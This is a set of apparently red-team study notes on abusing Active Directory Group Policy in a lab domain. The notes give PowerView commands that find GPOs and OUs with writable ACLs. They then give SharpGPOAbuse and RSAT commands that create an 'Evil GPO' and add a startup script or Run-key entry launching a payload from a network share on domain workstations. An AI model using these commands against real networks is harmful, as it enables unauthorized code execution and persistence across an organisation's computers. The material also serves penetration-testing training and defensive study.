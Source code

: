 # Group Policy Notes

## Modifying Existing GPO

Tools:
[SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)

steps:
1. enum all GPO's in the domain,
2. check ACL of each one
3. filter for which a principal has modify privileges
   - CreateChild
   - WriteProperty
   - GenericWrite
4. filter any legitimate principals including SYSTEM, DA's or EA's

```
powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
powershell Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath
powershell ConvertFrom-SID <SID>
powershell Get-DomainOU -GPLink "{<GPO SID>}" | select distinguishedName
powershell Get-DomainComputer -SearchBase "<GPO distinguishedname>" | select dnsHostName
can manually change these files in this path:
ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{<GPO>}
or using SharpGPOAbuse:
execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Release\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b \\dc-2\software\dns_x64.exe" --GPOName "Vulnerable GPO"
```

the victim would need to ```run gpupdate /force``` then reboot to apply


## Create and Link a GPO

Finding GPO's that are stored in System Policies that can create new GPOs in the domain with the "Create GroupPolicyContainer objects" using Powerview by looking for those that have "CreateChild" rights on the "Group-Policy-Container", and then resolving their SIDs to readable names.
```
powershell Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }
```

need to also find those that are linked to an OU for abuse
```
powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl
```

Using Powershell RSAT modules to make changes, only usually found on management workstations
```
powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
powershell New-GPO -Name "Evil GPO"
powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\dns_x64.exe" -Type ExpandString
powershell Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"
```
